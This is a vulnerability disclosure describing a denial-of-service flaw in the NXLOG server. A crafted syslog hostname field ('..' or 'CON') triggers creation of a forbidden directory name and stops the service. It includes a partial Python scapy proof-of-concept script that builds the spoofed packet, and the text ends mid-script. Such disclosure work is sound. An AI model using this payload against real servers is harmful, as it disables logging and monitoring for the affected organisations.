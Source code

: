 **Availability          :**     

---

**CVSS SCORE            :**     

**SEVERITY              :**     


---

# 2 Exploitation :
This vulnerability can make a DoS of NXLOG server.

But the server needs to be a specific configuration, the nxlog config file must define to create a directory with a field of a part of the Syslog payload.

Syslog field: [https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields](https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields)

The software tries to create a directory but the name of this directory can't be created on the file system.

Because of the name of this directory is forbidden.

Here is an example of a directory name impossible to create :

* For Windows 	: 	CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8 et LPT9;
* For Linux 	:	.., .

So if the configuration file is defined to create a name directory with Syslog payload, an attacker can switch off the Nxlog service.

---

# 3 PoC :
To exploit this vulnerability I have created a Python script :
````python
#!/usr/bin/python3
# coding: utf8
# Nooooooooooo I'm not a script kiddie I hack syslog :D
# g0 h4ck SYSLOG
# Made by 123soleil with <3

import sys
import time
import argparse
from scapy.all import *

def getPayload(args):
        # IF UNIX
        if (args.OS == 1):
                return "Sep 14 14:09:09 .. dhcp service[warning] 110 Silence is golden"
        # IF WINDOWS
        elif (args.OS == 2):
                return "Sep 14 14:09:09 CON dhcp service[warning] 110 Silence is golden"

        # Test
        elif (args.OS == 3):
                return "Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden"

def runExploit(args,payload):
        priority = 30
        message = payload
        syslog = IP(src="192.168.1.10",dst=args.IP)/UDP(sport=666,dport=args.PORT)/Raw(load="<" + str(priority) + ">" + message)
````